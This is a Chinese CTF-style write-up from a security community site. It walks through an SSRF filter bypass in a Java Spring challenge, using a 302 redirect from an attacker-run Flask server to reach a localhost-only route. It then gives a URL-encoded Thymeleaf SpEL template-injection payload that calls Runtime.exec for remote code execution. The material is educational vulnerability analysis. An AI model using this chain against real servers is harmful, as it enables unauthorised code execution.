# 从302 重定向突破本地限制到thymeleaf模板注入-先知社区

> **来源**: https://xz.aliyun.com/news/17297  
> **文章ID**: 17297

---

# 从302 重定向突破本地限制到thymeleaf模板注入

## 前言

最近拿到了一个源码，发现这个 java 的题目挺有意思的，思路大概就是ssrf绕过本地ip限制，然后跳转到admin路由去，而漏洞点就是在admin路由，利用302跳转打一波模板渲染，我们在模板插入恶意的payload导致rce

## 源码分析

首先目录结构如下



简单分析一下路由

admin 路由

```
package com.example.controller;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.http.HttpStatus;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.thymeleaf.context.Context;
import org.thymeleaf.spring5.SpringTemplateEngine;

@Controller
/* loaded from: AdminController.class */
public class AdminController {
    @GetMapping({"/getsites"})
    public String admin(@RequestParam String hostname, HttpServletRequest request, HttpServletResponse response) throws Exception {
        String ipAddress = request.getRemoteAddr();
        if (!ipAddress.equals("127.0.0.1")) {
            response.setStatus(HttpStatus.FORBIDDEN.value());
            return "forbidden";
        }
        Context context = new Context();
        String dispaly = new SpringTemplateEngine().process(hostname, context);
        return dispaly;
    }
}
```

这个路由有一个最关键的方法就是

```
new SpringTemplateEngine().process(hostname, context);
```

渲染我们的内容

可以作为 sink 点，但是对我们的 ip 是有限制的

**CurlController**

```
package com.example.controller;

import com.example.utils.Utils;
import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.io.InputStreamReader;
import java.net.HttpURLConnection;
import java.net.InetAddress;
import java.net.URL;
import java.util.concurrent.TimeUnit;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: CurlController.class */
public class CurlController {
    private static final String RESOURCES_DIRECTORY = "resources";
    private static final String SAVE_DIRECTORY = "sites";

    @RequestMapping({"/curl"})
    public String curl(@RequestParam String url, HttpServletRequest request, HttpServletResponse response) throws Exception {
        if (!url.startsWith("http:") && !url.startsWith("https:")) {
            System.out.println(url.startsWith("http"));
            return "No protocol: " + url;
        }
        URL urlObject = new URL(url);
        String result = "";
        String hostname = urlObject.getHost();
        if (hostname.indexOf("../") != -1) {
            return "Illegal hostname";
        }
        InetAddress inetAddress = InetAddress.getByName(hostname);
        if (Utils.isPrivateIp(inetAddress)) {
            return "Illegal ip address";
        }
        try {
            String savePath = System.getProperty("user.dir") + File.separator + RESOURCES_DIRECTORY + File.separator + SAVE_DIRECTORY;
            File saveDir = new File(savePath);
            if (!saveDir.exists()) {
                saveDir.mkdirs();
            }
            TimeUnit.SECONDS.sleep(4L);
            HttpURLConnection connection = (HttpURLConnection) urlObject.openConnection();
            if (connection instanceof HttpURLConnection) {
                connection.connect();
                int statusCode = connection.getResponseCode();
                if (statusCode == 200) {
                    BufferedReader reader = new BufferedReader(new InputStreamReader(connection.getInputStream()));
                    BufferedWriter writer = new BufferedWriter(new FileWriter(savePath + File.separator + hostname + ".html"));
                    while (true) {
                        String line = reader.readLine();
                        if (line == null) {
                            break;
                        }
                        result = result + line + "
";
                    }
                    writer.write(result);
                    reader.close();
                    writer.close();
                }
            }
            return result;
        } catch (Exception e) {
            return e.toString();
        }
    }
}
```

这个路由的作用就是提供了一个 /curl 端点，用于从用户提供的 URL 获取网页内容，并将其保存到服务器的本地目录。

如果结合起来我们的 admin 路由，思路就有点明确了

先大概猜测是通过访问 vps 的文件，然后实现一个 302 跳转到 admin 路由传入我们的参数

**index 路由**

```
package com.example.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.thymeleaf.context.Context;
import org.thymeleaf.spring5.SpringTemplateEngine;

@Controller
/* loaded from: IndexController.class */
public class IndexController {
    @GetMapping({"/"})
    public String index() {
        Context context = new Context();
        SpringTemplateEngine engine = new SpringTemplateEngine();
        String index = engine.process("index", context);
        return index;
    }
}
```

这个没有利用点

然后还有一个解析模板的配置

```
package com.example.thymeleaf;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.thymeleaf.spring5.templateresolver.SpringResourceTemplateResolver;
import org.thymeleaf.templatemode.TemplateMode;

@Configuration
/* loaded from: ThymeleafConfigurator.class */
public class ThymeleafConfigurator {
    @Bean
    public SpringResourceTemplateResolver templateResolver() {
        SpringResourceTemplateResolver templateResolver = new SpringResourceTemplateResolver();
        templateResolver.setPrefix("file:resources/sites/");
        templateResolver.setSuffix(".html");
        templateResolver.setTemplateMode(TemplateMode.HTML);
        templateResolver.setCharacterEncoding("UTF-8");
        templateResolver.setCacheable(false);
        return templateResolver;
    }
}
```

## 漏洞利用

### 302 跳转绕过限制



可以看到是可以 ssrf 的，当然



我们输入本地 ip 尝试 ssrf 的时候会报错

Illegal ip address



主要是因为 isPrivateIp 的检测

```
public static boolean isPrivateIp(InetAddress ip) {
    int x;
    String ipAddress = ip.getHostAddress();
    System.out.println(ipAddress);
    if (ip.isSiteLocalAddress() || ip.isLoopbackAddress() || ip.isAnyLocalAddress()) {
        return true;
    }
    return ipAddress.startsWith("100") && (x = Integer.parseInt(ipAddress.split("\.")[1])) >= 64 && x <= 127;
}
```

会坚持我们的 ip 是否为本地的 ip

如果是就会返回 ture，导致 ssrf 失败



其实就是一个 ssrf 绕过本地 ip 的小技巧，这里我们尝试 302 跳转

首先我们先忽略 payload 的构造  
现在的目标就是成功访问到 admin 的路由

flask 跳转服务

我们交给 GPT



```
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/redirect')
def redirect_to_target():
    return redirect("http://127.0.0.1:8888/getsites?hostname=any", code=302)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

当然这里有个问题就是本地部署的环境本来就是 127.0.0.1,但是部署到服务上的时候是不是的，所以导致利用有些许差异

因为本地的 ip 就是 127，导致 admin 路由的 ip 限制没有作用，但是服务器上是会限制的

我们把这个代码放到服务器上然后启动



然后访问之后跳转

服务端也成功接收到了请求，绕过了限制  


### 构造 exp 实现 rce

现在我们已经成功访问到了我们的路由

现在就是如何构造 exp 的问题了



通过代码或者依赖，我们都能猜测到应该是需要渲染模板导致 rce 了

而这个模板渲染的时候是会解析我们的 spel 表达式的

我们尝试构造一个弹出计算器的 payload

修改我们的 flask 服务

```
from flask import Flask, redirect, url_for, render_template, request

app = Flask(__name__)


@app.route('/', methods=['POST', 'GET'])
def login():
    exp = "%3c%61%20%74%68%3a%68%72%65%66%3d%22%24%7b%27%27%2e%67%65%74%43%6c%61%73%73%28%29%2e%66%6f%72%4e%61%6d%65%28%27%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%27%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%63%61%6c%63%27%29%7d%22%20%74%68%3a%74%69%74%6c%65%3d%27%70%65%70%69%74%6f%27%3e"
    return redirect(f"http://127.0.0.1:8888/getsites?hostname={exp}");


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

需要给 payload 编码

解码后

```
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('calc')}" th:title='pepito'>
```

就是一个插入了 spel 表达式的模板



在检验的时候，因为不是本地 ip 绕过了



然后成功来到 sink 点



传入了我们的恶意模板

然后导致了命令执行


